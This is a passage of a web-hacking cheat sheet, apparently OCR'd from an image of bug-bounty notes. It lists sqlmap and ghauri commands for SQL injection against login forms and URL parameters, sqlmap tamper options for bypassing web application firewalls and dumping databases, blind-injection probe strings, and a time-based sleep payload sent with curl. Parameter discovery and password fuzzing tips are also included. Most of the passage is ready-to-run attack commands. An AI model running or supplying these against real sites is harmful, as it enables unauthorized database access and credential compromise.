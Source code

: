 
WAF Bypass :-


--batch --random-agent --level=5 --risk=3 --threads=10 --dbs


--batch --random-agent --tamper="space2comment" --level=5 --risk=3 --threads=10 --dbs


--level=5 --risk=3 --random-agent -v3 --tamper="between,randomcase,space2comment" --dbs



* look for XSS bugs at username/password parameters.




* Use Arjun for getting possible hidden parameters :-

arjun -u "https://www.testtttt.com/si/gfgfgfgfg..." -w w/burp-parameter-names.txt -m GET,POST



* See Waybackmachine for links and parameters


* See page source :- Look for intersting links, js files, parameters, possible secrets


* Fuzzing Username and Password using Intruder.




14- Testing For SQli :-



ghauri -r r.txt -p Username --batch --level 3 --dbs

sqlmap -r r.txt -p Username --batch --level 3 --risk 3

sqlmap -u "https://sub.target.com/ddfdff/file.php?id=333&url=fgf  --batch --level 3 --risk 3


ghauri -u "https://sub.target.com/ddfdff/file.php?id=333&url=fgf  --batch --level 3

sqlmap -r r.txt --dbms="MySQL" --level 5 --risk 3 --dbs --hostname


Blind SQL Injection POST Test :-

'
'--
\
#

ghauri -u 'https://target.net/login/login' --data "login=*&password=admin&remember=1" --batch --level 3 --flush-session

ghauri -r r.txt -p user_session[login] --batch --level 3

time curl -X POST -d "user='XOR(if(now()=sysdate(),sleep(10),0))XOR'Z&pass=test" https://test/ff/login.php




15- JS Hunting :-
